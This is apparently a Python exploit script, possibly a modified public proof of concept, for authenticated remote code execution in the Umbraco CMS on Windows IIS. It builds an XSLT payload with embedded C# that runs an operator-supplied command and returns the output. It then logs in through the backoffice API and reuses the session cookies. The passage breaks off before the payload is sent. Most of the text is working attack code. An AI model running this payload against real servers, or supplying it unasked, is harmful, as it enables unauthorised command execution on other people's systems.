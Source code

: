 # Tested on: Windows IIS
# Example: python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig

import requests
import re
import argparse
from http.cookies import SimpleCookie

from bs4 import BeautifulSoup

parser = argparse.ArgumentParser(prog='exploit.py',
    description='Umbraco authenticated RCE',
    formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=80))
parser.add_argument('-u', '--user', metavar='USER', type=str,
    required=True, dest='user', help='username / email')
parser.add_argument('-p', '--password', metavar='PASS', type=str,
    required=True, dest='password', help='password')
parser.add_argument('-i', '--host', metavar='URL', type=str, required=True,
    dest='url', help='root URL')
parser.add_argument('-c', '--command', metavar='CMD', type=str, required=True,
    dest='command', help='command')
parser.add_argument('-a', '--arguments', metavar='ARGS', type=str, required=False,
    dest='arguments', help='arguments', default='')
args = parser.parse_args()

# Payload
payload = """\
<?xml version="1.0"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:csharp_user="http://csharp.mycompany.com/mynamespace"><msxsl:script language="C#" implements-prefix="csharp_user">public string xml() { string cmd = "%s"; System.Diagnostics.Process proc = new System.Diagnostics.Process(); proc.StartInfo.FileName = "%s"; proc.StartInfo.Arguments = cmd; proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true;  proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; }  </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/> </xsl:template> </xsl:stylesheet>
""" % (args.arguments, args.command)

login = args.user
password = args.password
host = args.url

# Process Login
url_login = host + "/umbraco/backoffice/UmbracoApi/Authentication/PostLogin"
loginfo = { "username": login, "password": password}
s = requests.session()

# START OF MODIFIED SECTION
# r2 = s.post(url_login,json=loginfo)
r2 = requests.post(url_login,json=loginfo)
cookie = SimpleCookie()
cookie.load(r2.headers["Set-Cookie"])

for key,value in cookie.items():
    cookie_obj = requests.cookies.create_cookie(name=key,value=value.value)
    s.cookies.set_cookie(cookie_obj)